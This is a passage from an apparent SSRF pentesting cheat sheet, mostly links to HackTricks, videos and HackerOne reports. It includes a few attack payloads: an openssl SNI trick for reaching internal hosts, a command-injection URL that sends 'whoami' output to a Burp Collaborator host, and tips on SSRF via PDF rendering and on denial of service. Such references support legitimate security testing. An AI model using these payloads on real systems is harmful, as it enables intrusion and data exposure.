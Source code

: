 # Other Test Cases

```bash
# SSRF via Referrer header
<https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-referrer-header>
# SSRF via SNI data from certificate  --> <https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate>
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlf
# Wget File Upload 
<https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick>
# SSRF with Command Injection
url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami`
# PDFs Rendering
If the web page is automatically creating a PDF with some information you have provided, you can insert some JS that will be executed by the PDF creator itself (the server) while creating the PDF and you will be able to abuse a SSRF. Find more information here. <https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf>
# From SSRF to DoS
Create several sessions and try to download heavy files exploiting the SSRF from the sessions.
# SSRf PHP Functions
```

# Resources 
[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
[https://highon.coffee/blog/ssrf-cheat-sheet/](https://highon.coffee/blog/ssrf-cheat-sheet/)
[URL Format Bypass - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass)
[SSRF vulnerabilities and where to find them - Detectify Labs](https://labs.detectify.com/2022/09/23/ssrf-vulns-and-where-to-find-them/?fbclid=IwAR0xC3ymb4ufRUGRDOZWr7lleeatiJj_vH8dod9-84jKt0PN1z7evtHFccA)
### Youtube
* https://www.youtube.com/watch?v=U0bPPw6uPgY&t=1s
* https://www.youtube.com/watch?v=324cZic6asE
* https://www.youtube.com/watch?v=o-tL9ULF0KI
* https://www.youtube.com/watch?v=324cZic6asE&t=751s
* https://youtu.be/m4BxIf9PUx0
* https://youtu.be/apzJiaQ6a3k
* [A New Era of SSRF](https://www.youtube.com/watch?v=R9pJ2YCXoJQ) by [Orange Tsai](https://blog.orange.tw/)

### Hackerone Reports
* https://hackerone.com/hacktivity?order_field=popular&filter=type%3Apublic&querystring=SSRF
* https://hackerone.com/reports/737161
* https://hackerone.com/reports/816848
* https://hackerone.com/reports/398799
* https://hackerone.com/reports/382048
* https://hackerone.com/reports/406387
* https://hackerone.com/reports/736867
* https://hackerone.com/reports/517461
* https://hackerone.com/reports/508459
* https://hackerone.com/reports/738553
* https://hackerone.com/reports/514224
* https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF
* https://hackerone.com/reports/341876
* https://hackerone.com/reports/793704
* https://hackerone.com/reports/386292
* https://hackerone.com/reports/326040
* https://hackerone.com/reports/310036
* https://hackerone.com/reports/643622